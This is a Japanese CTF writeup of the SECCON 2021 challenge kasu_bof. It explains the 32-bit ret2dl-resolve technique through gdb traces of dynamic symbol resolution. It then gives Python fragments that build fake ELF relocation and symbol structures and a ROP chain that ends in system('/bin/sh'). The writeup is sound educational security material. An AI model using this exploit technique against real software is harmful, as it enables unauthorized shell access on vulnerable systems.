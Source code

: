 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~


**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
実行ファイルに ~file~ コマンドと ~checksec~ を用いると、以下の特徴があることがわかる。
- x86
- SSP (Stack Smashing Protection) 無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~char~ 型の配列 ~buf~ のサイズが ~0x80~ バイト 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで配列 ~buf~ に任意の文字を入力可能

  
このことから、配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる。


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため、
スタックバッファオーバフローを利用して、 ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである。


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスを解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、1.で用意した ~Elf32_Rel~ 構造体のオブジェクトを指すように指定
   3. ~.plt~ の先頭にジャンプし、1.で用意した構造体のオブジェクトを元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、 ~.plt~ セクションからのアドレス解決の流れを説明し、どのようにして偽の構造体を作成すればよいかについて説明する。

*** ~main~ から ~gets~ が呼び出される全体の流れ
    問題のプログラムをディスアセンブルし、どのようにして ~gets~ が呼び出されているのか確認してみる。
    #+begin_src
08049180 <main>:
 8049180:       55                      push   ebp
 8049181:       89 e5                   mov    ebp,esp
 8049183:       81 ec 98 00 00 00       sub    esp,0x98
 8049189:       8d 85 7c ff ff ff       lea    eax,[ebp-0x84]
 804918f:       c7 45 fc 00 00 00 00    mov    DWORD PTR [ebp-0x4],0x0
 8049196:       89 04 24                mov    DWORD PTR [esp],eax
 8049199:       e8 a2 fe ff ff          call   8049040 <gets@plt>
 804919e:       31 c9                   xor    ecx,ecx
 80491a0:       89 85 78 ff ff ff       mov    DWORD PTR [ebp-0x88],eax
 80491a6:       89 c8                   mov    eax,ecx
 80491a8:       81 c4 98 00 00 00       add    esp,0x98
 80491ae:       5d                      pop    ebp
 80491af:       c3                      ret    
    #+end_src
    ディスアセンブルした ~main~ を見てみると、 ~0x8049199~ のアドレスにおいて、 ~gets@plt~ である ~0x8049040~ にジャンプしている。 ~gets@plt~ は、 ~.plt~ セクションに存在するため、 ~.plt~ セクションもディスアセンブルしてみる。
    
    #+begin_src
08049030 <.plt>:
 8049030:       ff 35 04 c0 04 08       push   DWORD PTR ds:0x804c004
 8049036:       ff 25 08 c0 04 08       jmp    DWORD PTR ds:0x804c008
 804903c:       00 00                   add    BYTE PTR [eax],al
        ...

08049040 <gets@plt>:
 8049040:       ff 25 0c c0 04 08       jmp    DWORD PTR ds:0x804c00c
 8049046:       68 00 00 00 00          push   0x0
 804904b:       e9 e0 ff ff ff          jmp    8049030 <.plt>

08049050 <__libc_start_main@plt>:
 8049050:       ff 25 10 c0 04 08       jmp    DWORD PTR ds:0x804c010
 8049056:       68 08 00 00 00          push   0x8
 804905b:       e9 d0 ff ff ff          jmp    8049030 <.plt>
    #+end_src
    先程呼ばれた ~gets@plt~ を確認してみると、 まず ~jmp    DWORD PTR ds:0x804c00c~ で ~0x804c00c~ 番地に格納されたアドレスへジャンプしている。この ~0x804c00c~ のアドレスは、GOTと呼ばれる領域にあり、最終的に解決された ~gets~ のアドレスが格納される。

    
    ここで、checksecの結果から、配布された実行ファイルは *Partial RELRO* であることがわかっている。
    *Partial RELRO* は、共有ライブラリが遅延バインドされることを表しており、1回目のライブラリ関数の呼び出しの際に、共有ライブラリのアドレスを解決し、解決したアドレスをGOTへ格納する。
    このため、2回目以降のライブラリ関数の呼び出しは、GOTに格納された解決済のアドレスへジャンプすることで可能となる。

    
    # しかし、問題を見てみると、 ~gets@plt~ は1回目の呼び出しであるため、まだGOTには解決されたアドレスは格納されていない。
    そこで、1回目の ~gets@plt~ の呼び出し時に、GOTには何が格納されているのか確認してみる。

    以下は、 ~gets@plt~ を呼び出す前のGOTの状態。
    #+begin_src
gef➤  got

GOT protection: Partial RelRO | GOT functions: 2
 
[0x804c00c] gets@GLIBC_2.0  →  0x8049046
[0x804c010] __libc_start_main@GLIBC_2.0  →  0xf7de1de0
    #+end_src
    GOTを確認すると、次の命令のアドレス ( ~0x8049046~ )がGOTに格納されていることがわかる。
    このため、引き続き ~0x8049046~ からの命令読んでいく。

    
    次の命令 ~push   0x0~ では、スタックに ~0x0~ を積み、その後 ~jmp    8049030 <.plt>~ で ~.plt~ セクションの先頭にジャンプしている。
    #+begin_src
08049030 <.plt>:
 8049030:       ff 35 04 c0 04 08       push   DWORD PTR ds:0x804c004
 8049036:       ff 25 08 c0 04 08       jmp    DWORD PTR ds:0x804c008
 804903c:       00 00                   add    BYTE PTR [eax],al
    #+end_src
    
    ~.plt~ の先頭の命令は、 ~push   DWORD PTR ds:0x804c004~ となっており、 ~0x804c004~ に格納されている値をスタックに積む。
    そして、次の命令 ~jmp    DWORD PTR ds:0x804c008~ で ~0x804c008~ に格納されているアドレスへジャンプする。

    ここで、 ~0x804c004~ および ~0x804c008~ 番地には何が格納されているのか調べてみる。
    #+begin_src
gef➤  hexdump dword 0x804c004
0x0804c004│+0x0000   <_GLOBAL_OFFSET_TABLE_+0004> 0xf7ffd990   
0x0804c008│+0x0004   <_GLOBAL_OFFSET_TABLE_+0008> 0xf7fe7ac0   
    #+end_src
    すると、これらのアドレスはGOT先頭付近のアドレスであり、それぞれ ~0xf7ffd990~ と ~0xf7fe7ac0~ の値が格納されていることがわかる。

    まとめると、 ~.plt~ の先頭の命令では、スタックに ~0xf7ffd990~ を積み、 ~0xf7fe7ac0~ 番地へジャンプしている。
    そして、 ~0xf7fe7ac0~ へジャンプ後、 ~gets~ のアドレスが解決され、 ~gets~ が実行される。
    また、二回目以降の呼び出しのために、解決されたアドレスは、GOTへ格納される。


    以上が ~main~ から ~gets~ が実行されるまでの流れであり、 ~return to dl resolve~ をするために必要となる ~.plt~ セクション以降の流れについて以降では詳しく見ていく。
    
*** ~.plt~ セクションからアドレス解決の流れ
    さて、 ~main~ から ~gets~ が呼び出される全体像が掴めたところで、最後にジャンプしたアドレス ~0xf7fe7ac0~ から先を追ってみる。
    
    ジャンプ先の ~0xf7fe7ac0~ は ~_dl_runtime_resolve~ となっており、この関数により ~gets~ のアドレスが解決される。
     ~_dl_runtime_resolve~ は引数として ~link_map~ 構造体と、後述する ~Elf32_Rel~ 構造体へのオフセットを示す ~reloc_arg~ という2つの値を取る。

    そこで、ここから先では、 ~_dl_runtime_resolve~ を呼び出す際にスタックに積まれた ~0xf7ffd990~ を ~_dl_runtime_resolve~ の第一引数である ~link_map~ 構造体のアドレス、 ~0x0~ を第二引数である ~reloc_arg~ として扱う。

#   それでは、次に引数として渡された ~link_map~ 構造体がどのような役割を担っているのかを調査する。
   それでは、次にライブラリ関数のシンボルの解決をする際に必要な情報を含んでいるそれぞれのセクションについて調べていく。    
    # ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。
    
    # そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


#     参考
#     #+begin_example    
#         .rel.plt                         .dynsym                                           .dynstr                                    
#             |                                |                                                 |
#             |                                |                                                 |
# reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
#             |                                |                                                 |
#             +-->|-----------+----------|     |                                                 |
#                 | Elf32_Rel | r_offset |     |                                                 |
#                 |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
#                 |-----------+----------|     |                                                 |
#                                              |                                                 |
#                                              +->|-----------+---------------------------|      |
#                                                 | Elf32_Sym | st_name                   |------+   st_name + .dynstr
#                                                 |           | st_value                  |      |
#                                                 |           | st_size                   |      |
#                                                 |           | st_info st_other st_shndx |      |
#                                                 |-----------+---------------------------|      |
#                                                                                                |
#                                                                                                +-->|-----------+----------|
#                                                                                                    | symbol    |  'gets'  |
#                                                                                                    |-----------+----------|
#     #+end_example

**** ~.dynamic~ セクション
  ~.dynamic~ セクションは、 ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ セクションなどのアドレス情報を保持しているセクションである。
  
  このため、ライブラリ関数のシンボルを解決をする際は、 ~.dynamic~ セクションを最初に参照し、シンボル解決に必要な情報を含むセクションが配置されているアドレスを取得する。
  
  ~.dynamic~ セクションは、 ~Elf32_Dyn~ 構造体のオブジェクトが連続して配置されている。

  そこで、 ~Elf32_Dyn~ 構造体の定義をgdbで参照してみる。

  gdbから、構造体の定義を得るために、libcにおけるデバッグ情報を取得しておく。
   #+begin_src
$ sudo apt install libc6-dbg libc6-dbg:i386
   #+end_src

   #+begin_src
gef➤  break main
gef➤  run
gef➤  info types Elf32_Dyn
All types matching regular expression "Elf32_Dyn":

File ../elf/elf.h:
838:    typedef struct {...} Elf32_Dyn;gef➤  info types Elf32_Dyn
All types matching regular expression "Elf32_Dyn":

File ../elf/elf.h:
838:    typedef struct {...} Elf32_Dyn;
gef➤  ptype /o Elf32_Dyn
type = struct {
/*    0      |     4 */    Elf32_Sword d_tag;
/*    4      |     4 */    union {
/*                 4 */        Elf32_Word d_val;
/*                 4 */        Elf32_Addr d_ptr;

                               /* total size (bytes):    4 */
                           } d_un;

                           /* total size (bytes):    8 */
                         }
    #+end_src
  - ソースコードにおける定義
    - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L840
	# #+begin_src c
	#   typedef struct
	#   {
	#     Elf32_Sword d_tag;			/* Dynamic entry type */
	#     union
	#       {
	# 	Elf32_Word d_val;			/* Integer value */
	# 	Elf32_Addr d_ptr;			/* Address value */
	#       } d_un;
	#   } Elf32_Dyn;
	# #+end_src


  ~Elf32_Dyn~ 構造体は、 それぞれの構造体がどのセクションの何の情報を持つのかを表す識別子である ~d_tag~ と、 ~d_tag~ に対応した値を ~union~ 型として持つ。

  ここで、 ~.dynamic~ セクションを参照するため、このセクションそのもののアドレスを得るためには、 ~link_map~ 構造体の ~l_info~ フィールドを参照する必要がある。

  そこで、次に ~link_map~ 構造体の構造と、 ~.dynamic~ セクションそのもののアドレスを解決する流れを見ていく。 
 	
    # また、このとき ~.dynamic~ セクションは、 ~d_tag~ の順番に並んでいる訳ではないことに注意。
    # - 以下の例では、 ~DT_STRTAB, DT_SYMTAB~ は8、9番目のエントリ、 ~DT_JMPREL, DT_REL~ は16、17番目のエントリに配置
    #   #+begin_src 
    #   0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
    #   0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
    #   ...
    #   0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
    #   0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
    #   0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
    #   0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
    #   ...
    #   0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
    #   0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
    #   0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
    #   0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
    #   ...
    #   #+end_src

***** ~link_map~ 構造体
   ~link_map~ 構造体は、ELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス、再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。

   
   それでは、 ~link_map~ 構造体の構造を知るために、gdbを用いて定義を参照してみる。
   #+begin_src
gef➤  info types link_map
All types matching regular expression "link_map":

File ../elf/link.h:
84:	struct link_map_public;

File ../include/link.h:
91:	struct link_map;
271:	struct link_map_reldeps;

File ../sysdeps/x86/linkmap.h:
10:	struct link_map_machine;
gef➤  ptype /o struct link_map
/* offset    |  size */  type = struct link_map {
/*    0      |     4 */    Elf32_Addr l_addr;
/*    4      |     4 */    char *l_name;
/*    8      |     4 */    Elf32_Dyn *l_ld;
/*   12      |     4 */    struct link_map *l_next;
/*   16      |     4 */    struct link_map *l_prev;
/*   20      |     4 */    struct link_map *l_real;
/*   24      |     4 */    Lmid_t l_ns;
/*   28      |     4 */    struct libname_list *l_libname;
/*   32      |   308 */    Elf32_Dyn *l_info[77];
/*  340      |     4 */    const Elf32_Phdr *l_phdr;
...
   #+end_src
   - ソースコードの定義はここ
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/include/link.h#L95
     # #+begin_src c
     #   struct link_map
     #   {
     # 	 /* These first few members are part of the protocol with the debugger.
     # 	    This is the same format used in SVR4.  */

     # 	 ElfW(Addr) l_addr;		/* Difference between the address in the ELF
     # 					  file and the addresses in memory.  */
     # 	 char *l_name;		/* Absolute file name object was found in.  */
     # 	 ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
     # 	 struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
     # 	 ...

     # 	 ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
     # 		  + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
     # 	 ...
     #   }
     # #+end_src
     # - ソースコード中の ~ElfW(hoge)~ のマクロは、 ~Elf32_hoge~ と展開される。
     #   - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/link.h#L28

     *return to dl resolve* において、 ~link_map~ 構造体で ~offset~ が32の位置に保持されている ~l_info~ フィールドを利用する。
      ~l_info~ は、各セクションへのアドレスを保持している。

     各セクションの情報が格納されている ~l_info~ において、インデックスは、対応した ~d_tag~ により参照される。
      - d_tagに代入されうる値の一覧
        - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
          #+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	  #+end_src
     例えば、 ~.dynamic~ セクションのアドレスを参照したい場合、 ~d_tag~ が ~DT_JMPREL~ の ~Elf32_Dyn~ 構造体を参照すればよいため、 ~l_info[23]~ とすることで参照することができる。
   
   ここで、実際にgdbを用いて ~link_map~ 構造体から ~.dynamic~ セクションのアドレスを解決してみる。

   ~_dl_runtime_resolve~ の第一引数である ~0xf7ffd990~ は ~link_map~ 構造体のアドレスであるため、 ~0xf7ffd990~ を ~link_map~ 構造体のアドレスとし、表示する。
   #+begin_src 
gef➤  set $link_map = (struct link_map*) 0xf7ffd990
gef➤  print *$link_map.l_info[23]
$5 = {
  d_tag = 0x17,
  d_un = {
    d_val = 0x80482d8,
    d_ptr = 0x80482d8
  }
}
   #+end_src

   すると ~link_map~ 構造体のそれぞれのメンバの値が確認できる。
   例えば、 ~dynamic~ セクションのアドレス情報は、 ~l_info[23]~ を参照することにより得ることができる。
   このため、これを表示してみると、 ~d_ptr~ には ~0x80482d8~ が格納されており、 ~.dynamic~ セクションのアドレスは ~0x80482d8~ だということがわかる。

   それでは、次にライブラリ関数のシンボルの解決に必要な他のセクションの情報を参照していく。

**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは、解決したアドレスを格納するGOTのアドレスとシンボルの情報を得るために必要な情報を持つ。

  ~rel.plt~ セクションは、 ~Elf32_Rel~ 構造体の配列となっており、 ~Elf32_Rel~ 構造体の定義は以下のようになっている。
  #+begin_src
gef➤  info types Elf32_Rel
All types matching regular expression "Elf32_Rel":

File ../elf/elf.h:
638:    typedef struct {...} Elf32_Rel;
658:    typedef struct {...} Elf32_Rela;
gef➤  ptype /o Elf32_Rel
type = struct {
/*    0      |     4 */    Elf32_Addr r_offset;
/*    4      |     4 */    Elf32_Word r_info;

                           /* total size (bytes):    8 */
                         }
  #+end_src
    - ソースコード
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L634
      # 	#+begin_src c
      # 	  typedef struct
      # 	  {
      # 	    Elf32_Addr	r_offset;		/* Address */
      # 	    Elf32_Word	r_info;			/* Relocation type and symbol index */
      # 	  } Elf32_Rel;				
      # #+end_src
      
     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
     ここで、 ~_dl_runtime_resolve~ の第二引数である ~reloc_arg~ は、 ~.rel.plt~ セクションの先頭アドレスから、参照する ~Elf32_Rel~ 構造体までのオフセットとなっている。
    #+begin_src
gef➤  set $reloc_arg = 0x0
gef➤  set $reloc = (Elf32_Rel *)($link_map.l_info[23].d_un.d_ptr + $reloc_arg)
gef➤  print *reloc
$11 = {
  r_offset = 0x804c00c,
  r_info = 0x107
}
    #+end_src

    ここで、 ~r_offset~ はライブラリ関数のアドレスを解決後に、そのアドレスを格納するGOT領域のエントリとなる。
    このため、 ~gets~ のアドレスが解決されると、 ~0x804c00c~ にそのアドレスが格納されることになる。
	 
    ~r_info~ は、シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより、 ~.dynsym~ のインデックスを取得することができる。
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは、アドレス解決する関数のシンボルのサイズやオフセットなどの情報を持つ。

    また、 ~.dynsym~ セクションは、 ~Elf32_Sym~ 構造体の配列となっている。

     ~Elf32_Sym~ 構造体をgdbで参照してみる。
     #+begin_src
gef➤  info types Elf32_Sym
All types matching regular expression "Elf32_Sym":

File ../elf/elf.h:
527:    typedef struct {...} Elf32_Sym;
gef➤  ptype /o Elf32_Sym
type = struct {
/*    0      |     4 */    Elf32_Word st_name;
/*    4      |     4 */    Elf32_Addr st_value;
/*    8      |     4 */    Elf32_Word st_size;
/*   12      |     1 */    unsigned char st_info;
/*   13      |     1 */    unsigned char st_other;
/*   14      |     2 */    Elf32_Section st_shndx;

                           /* total size (bytes):   16 */
                         }
    #+end_src
    - ソースコード
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L519
	  # #+begin_src c
	  #   typedef struct
	  #   {
	  #     Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	  #     Elf32_Addr	st_value;		/* Symbol value */
	  #     Elf32_Word	st_size;		/* Symbol size */
	  #     unsigned char st_info;		/* Symbol type and binding */
	  #     unsigned char st_other;		/* Symbol visibility */
	  #     Elf32_Section st_shndx;		/* Section index */
	  #   } Elf32_Sym;
          # #+end_src

     ここで、 ~st_name~ は、実際にシンボルが置かれている ~.dynstr~ セクションのオフセットを指している。
    そこで、 ~r_info~ からインデックスを計算し、実際に ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
gef➤  set $symtab = (Elf32_Sym *)($link_map.l_info[6].d_un.d_ptr)
gef➤  set $sym = $symtab[$reloc.r_info>>8]
gef➤  print $sym
$13 = {
  st_name = 0x1a,
  st_value = 0x0,
  st_size = 0x0,
  st_info = 0x12,
  st_other = 0x0,
  st_shndx = 0x0
}
    #+end_src
    
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが、シンボルを指すアドレスとなっている。
    # - 以下の例では、 ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し、その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
gef➤  set $strtab = (char *)($link_map.l_info[5].d_un.d_ptr)
gef➤  set $gets_symbol = $strtab + $sym.st_name
gef➤  print $gets_symbol
$15 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+--------|
                                                                                                   | symbol    | 'gets' |
                                                                                                   |-----------+--------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = fake_elf32_rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下3bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常はGOTの対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((fake_elf32_sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から文字列 ~"system\x00"~ のアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、グローバル関数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には、以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、 ~"system"~ のシンボル、および ~"/bin/sh"~ の文字列を格納する。    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4 byte  |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4 byte  |
    |-----------+---------------------------+---------|
    |           |                           | 4 byte  |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 |  4byte  |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき、 ~Elf32_Sym~ 構造体は、 ~.dynsym~ セクションのアドレスから、 ~0x10~ バイトの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)、
    必要なバイト数だけalignしている。

    Solverを書くときは、事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき、ROPで ~gets~ の引数として指定しておき、ROPチェインが発火後に、それぞれの構造体やシンボルを書き込んでいく。
    #+begin_src python
      fake_elf32_rel_addr = bss

      fake_elf32_sym_addr = fake_elf32_rel_addr + 0x10

      system_symbol_addr = fake_elf32_sym_addr + 0x14

      sh_string_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考文献に挙げたセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(fake_elf32_rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(fake_elf32_rel_addr)     # gets arg

      # gets(fake_elf32_sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(fake_elf32_sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_string_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_string_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~"/bin/sh"~ を取れるように、 ~"/bin/sh"~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # return address of system()
      buf += p32(sh_string_addr)     # system arg
     #+end_src

*** Solver    
